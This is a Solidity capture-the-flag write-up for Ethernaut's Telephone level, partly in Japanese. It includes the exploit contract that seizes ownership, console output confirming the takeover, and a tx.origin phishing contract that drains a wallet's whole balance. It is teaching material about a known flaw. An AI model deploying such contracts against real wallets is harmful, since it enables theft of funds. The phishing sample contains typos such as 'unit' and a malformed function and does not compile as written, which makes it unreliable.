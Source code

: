 ## Ethernaut-solution
---

### 4. Telephone 

Claim ownership of the contract below to complete this level.


- Remix IDEのコツ
**prerequsite: <br>
Environmentは必ず 【Injected Web3】でやる<br>
compile時にgas代<br>
deploy時にgas代<br>


まず事前に用意しておいた Telephone.sol をcompile 

TelephoneHack.solを書く,compile => deploy of contract address 
```s
contract.address
'0x6A2449B7f82499832F4Ced39a886c75397c77f61'
```

Contract.owner()でowner addressを確認
```
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'
```

Deployed Contractからfunction hackContractを呼び出して
自分のウォレットのアドレスを入力
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

changeOwnerできているか確認。my wallet addressになっていたらsuccess!
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5' //success
```

```solidity
//Telephone.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

//TelephoneHack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone telContract;

    constructor(address _address) public {
        telContract = Telephone(_address);
    }

    function hackContract(address _address) public {
        telContract.changeOwner(_address);
    }
}
```


While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

Use tx.origin to determine whose tokens to transfer, e.g.
```solidity
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
```
Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
```solidity
function () payable {
  token.transfer(attackerAddress, 10000);
}
```
In this scenario, tx.origin will be the victims address (while msg.sender will be the malicious contracts address), 
resulting in the funds being transferred from the victim to the attacker.
```solidity
//PhishingAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*Phishing attack using tx.origin */

//Dale -> Wallet.transfer() (tx.origin = Dale) 
//Dale -> Laura's malicious contract -> Wallet.transfer() (tx.origin = Dale)

contract Wallet {
	address public owner;

	constructor() public { //anyone can deploy 
	owner = msg.sender;
	}

	function deposit() public payable ()

	function transfer(address payable _to, unit _amount) public {//specifier amount 
	require(tx.origin == owner, "Now owner"); //dale withdraw money here, sending transaction

	_to.transfer(_amount); //she can suck out or withdraw all the money inside of this contract
	}

	function getBalance() public view returns(unit) {
	return address(this).balance;
	}
  }

contract Attack {
	address payable public owner;
	Wallet wallet;

	constructor(Wallet _wallet) public {
	wallet = Wallet(_wallet); //Don't write" new" prefix. 
	owner = msg.sender; //laura is gonna be owner
	}

	function attack() public {
	wallet.transfer(owner, address(wallet).balance);//entire balance 
	}//Laura can fool dale calling this attaack, call wallet contract address of wallet.balance
}
```


